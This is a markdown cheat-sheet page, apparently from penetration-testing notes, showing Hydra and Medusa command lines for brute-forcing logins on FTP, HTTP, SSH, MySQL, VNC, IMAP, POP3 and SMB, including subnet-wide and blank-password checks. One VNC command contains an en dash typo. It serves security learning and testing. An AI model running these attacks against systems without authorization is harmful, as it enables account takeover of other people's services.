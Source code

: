 ```yaml
---
title: "Bruteforce"
description: ""
seo:
  title: ""
  description: ""
---
```


## Hydra

[Hydra](https://github.com/vanhauser-thc/thc-hydra) is a very fast and flexible login cracker that supports many different protocols. It can be used to perform brute-force attacks against various services, including HTTP, FTP, SSH, and more.

```bash
hydra -l user -P /tmp/wordlists/passwords/password.txt ftp://192.168.0.1
```

You can also use the `-t` flag to define the number of connects in parallel per target which is defaulted to 16, or use the `-m` flag for more options specific to each module.
The uppercase flags are to be used when you want to use a list (when you don't know this credential), and the lowercase when you know this login information.

- Basic HTTP auth :

```bash
hydra -L /tmp/wordlists/usernames/http_default_users.txt -P /tmp/wordlists/passwords/password.txt -u -f TARGET_IP -s PORT http-get /
```

- SSH :

```bash
hydra -l alice -P /tmp/wordlists/passwords/password.txt -u -f ssh://TARGET_IP:PORT -t 4
```

- MySQL :

```bash
hydra -L /tmp/wordlists/usernames/multiple_sources_users.txt -P /tmp/wordlists/passwords/password.txt -f mysql://TARGET_IP -V
```

- VNC :

```bash
hydra -l bob –P /tmp/wordlists/passwords/password.txt -s PORT TARGET_IP vnc
```

- Other examples :

```bash
  hydra -L /tmp/wordlists/usernames/multiple_sources_users.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L /tmp/wordlists/usernames/multiple_sources_users.txt -P /tmp/wordlists/passwords/password.txt -M targets.txt ssh
```

## Medusa

[Medusa](https://github.com/jmk-foofus/medusa) is a speedy, parallel, and modular, login brute-forcer.
There are many other modules that are supported such as :

- CVS
- FTP
- HTTP
- RLOGIN
- SSHv2

To display them, simply use this command :

```bash
medusa -d
```

And to get specific options for a given module :

```bash
medusa -M smbnt -q
```

The following command instructs Medusa to test all passwords listed in passwords.txt against a single user (administrator) on the host 192.168.0.20 via the SMB service. The "-e ns" instructs Medusa to additionally check if the administrator account has either a blank password or has its password set to match its username (administrator).

```bash
medusa -h 192.168.0.20 -u administrator -P /tmp/wordlists/passwords/password.txt -e ns -M smbnt
```
